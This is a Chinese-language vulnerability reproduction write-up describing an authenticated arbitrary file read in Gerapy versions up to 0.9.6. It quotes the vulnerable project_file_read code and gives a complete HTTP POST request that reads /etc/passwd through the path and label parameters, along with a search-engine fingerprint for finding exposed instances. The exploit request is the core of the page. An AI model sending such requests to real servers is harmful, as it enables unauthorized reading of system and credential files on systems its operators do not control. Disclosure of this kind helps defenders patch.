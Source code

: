 # Gerapy read 后台任意文件读取漏洞

## 漏洞描述

Gerapy gerapy/server/core/views.py 中的 project_file_read 方法存在任意文件读取，攻击者登录后台后发送特定的请求包即可利用漏洞 

## 漏洞影响

<a-checkbox checked>Gerapy <= 0.9.6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Gerapy"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1638069254477-82075ea9-6191-4ebd-8e92-bed0104a0942.png)

出现漏洞的文件为 `gerapy/server/core/views.py`

![img](../../../.vuepress/public/img/1638085009077-bf005982-09d5-45c8-9468-36c5e3204b00.png)

```python
@api_view(['POST'])
@permission_classes([IsAuthenticated])
def project_file_read(request):
    """
    get content of project file
    :param request: request object
    :return: file content
    """
    if request.method == 'POST':
        data = json.loads(request.body)
        path = join(data['path'], data['label'])
        # binary file
        with open(path, 'rb') as f:
            return HttpResponse(f.read().decode('utf-8'))
```

参数 path 和 label 都为用户可控变量，登录后构造请求包

```python
POST /api/project/file/read HTTP/1.1
Host: 
Content-Length: 35
Accept: application/json, text/plain, */*
Authorization: Token 0fb31a60728efd8e6398349bea36fa7629bd8df0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

{"path":"/etc/",
"label":"passwd"}
```

![img](../../../.vuepress/public/img/1638085088521-218085b1-d086-400e-830a-596d896a6a14.png)